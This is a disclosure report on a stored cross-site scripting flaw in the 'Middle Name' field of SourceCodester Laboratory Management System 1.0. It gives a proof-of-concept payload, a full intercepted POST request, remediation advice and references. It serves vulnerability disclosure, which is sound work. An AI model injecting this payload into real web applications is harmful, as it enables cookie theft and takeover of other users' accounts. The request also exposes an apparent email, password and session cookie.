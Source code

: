 Stored Cross-Site Scripting Vulnerability in SourceCodester Laboratory Management System 1.0 
:

    Vendor: Sourcecodester
    Product: Laboratory Management System 1.0
    Product URL: Laboratory Management System 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Laboratory Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Middle Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Middle Name
    Severity: High
    Affected URL: /php-lms/classes/Users.php?f=save
    Affected Parameter: Middle Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Middle Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Middle Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/php-lms/classes/Users.php?f=save

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the Middle Name parameter as shown below and send the request to the server.

 -----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>


 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1L06qR4OZYnUAwMvf-QvLq1KS8tNi9Xmf/view?usp=drive_link
Payload:

Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>


Request:

POST /php-lms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------28315272284843807941132131392
Content-Length: 1176
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=user/manage_user
Cookie: PHPSESSID=ne013b16edsf0e0up00dsppfhb
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="id"


-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="username"

mohit.ahir7086@gmail.com
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="password"

Ramasra1247@
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="type"

1
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------28315272284843807941132131392--


Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Middle Name parameter of  /php-lms/classes/Users.php?f=save, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
